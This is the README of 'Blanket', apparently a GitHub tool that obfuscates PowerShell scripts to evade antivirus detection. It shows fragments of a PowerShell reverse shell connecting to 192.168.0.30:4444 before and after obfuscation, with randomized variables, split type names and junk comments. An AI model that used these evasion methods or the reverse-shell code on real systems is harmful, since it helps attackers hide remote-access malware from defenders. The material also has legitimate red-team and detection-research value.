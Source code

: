 # Blanket

````
▀█████████▄   ▄█          ▄████████ ███▄▄▄▄      ▄█   ▄█▄    ▄████████     ███     
  ███    ███ ███         ███    ███ ███▀▀▀██▄   ███ ▄███▀   ███    ███ ▀█████████▄ 
  ███    ███ ███         ███    ███ ███   ███   ███▐██▀     ███    █▀     ▀███▀▀██ 
 ▄███▄▄▄██▀  ███         ███    ███ ███   ███  ▄█████▀     ▄███▄▄▄         ███   ▀ 
▀▀███▀▀▀██▄  ███       ▀███████████ ███   ███ ▀▀█████▄    ▀▀███▀▀▀         ███     
  ███    ██▄ ███         ███    ███ ███   ███   ███▐██▄     ███    █▄      ███     
  ███    ███ ███▌    ▄   ███    ███ ███   ███   ███ ▀███▄   ███    ███     ███     
▄█████████▀  █████▄▄██   ███    █▀   ▀█   █▀    ███   ▀█▀   ██████████    ▄████▀   
             ▀                                  ▀                                  
````

If you are worried about being found perhaps try taking cover under a blanket.

Pure Python PowerShell Obfuscator 
****

## Usage

`git clone https://github.com/warren2i/Blanket`

`cd Blanket`



`usage: Blanket.py [-h] -i IP -p PORT [-o OUTFILE] [-s SCRIPT] [-v VARSIZE]
`
****

## FROM THIS

![alt text](https://github.com/warren2i/Blanket/blob/master/screenshots/virustotalflag.png?raw=true)
```
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");

```

## TO THIS

![alt text](https://github.com/warren2i/Blanket/blob/master/screenshots/virustotalencoded.png?raw=true)
```
<# Rick  HOLY CRAP  MORTY RUN     they take off  running in complete and total fear as the monster chases them   #>
$qiWhuJGxwI = new-object $jIXFgQanbD$ARXnYkEGqw$wSZMLtSCNA$hWVEIzFKHR$lDnUhrDSGw$aRBYRkGFUw$kXBLnxbVkq('192.168.0.30', 4444);
<# Jerry  Well  now you can build baskets and watch Paul Newman movies on VHS and mentally scar the Boy Scouts every Christmas   #>
if($qiWhuJGxwI -eq $rAQVEYeUkX){exit 1}
<# Jessica  You re Morty  right   #>
$GMRilHjFFt = $qiWhuJGxwI.GetStream();
<# Announcer  The glarp zone is for flarping and unglarping only   #>
$wdosspwpUlDUCxjSMOa = new-object $jFOPXASzCc$SPJkhQzvSx$HBxMZKRsex$NQbpEvtWIi$WBpIsOyusc($GMRilHjFFt);
<# Rick  Morty  I had to    I had to do it  I had�   I had to�   I had to make a bomb  Morty  I had to create a bomb   #>
$mpExOgyAGZ = new-object $ccPCTjvCMR$QGNWUyjRyA$GZSdvCoHYt[] 1024;
<# Morty  Ohhhhh   Rick pushes over a giant capsule  with an alien fetus over  smashing some Gromflomites  to slow them down   #>
$CABnIxyBoA = new-object $GUxCXYklTR$jmgKZRfvsC$dbYEHnzBop$PCZxvNmpro$esduLAahPr$vVAAgyplvP$xNZyQeUbTR;
<# Principal Vagina  I done been notifying you  Have you not been getting the messages I ve been leaving with Morty s grandfather   #>
```

## How Does Blanket Work?

#### randomvar(length)

Creates a random string of length (length), this is used to replace variables

#### addcomments()

Insert a comment on each line, comments are generated from text file defined with argument -c --comments

#### breakdatatype(string, rando)

Locates strings found by av and breaks into random multi line variables

##### Before Blanket
```
$pinfo = New-Object System.Diagnostics.ProcessStartInfo
```
##### After Blanket
```
$WjUHPtSUMs = New-Object $FxWBgCj$qzCeaqa$qjGBOBx$KRKWjyD$CRLlqAV$PspQekI$XkPguzs$FcQZxty$LXMGRypStartInfo 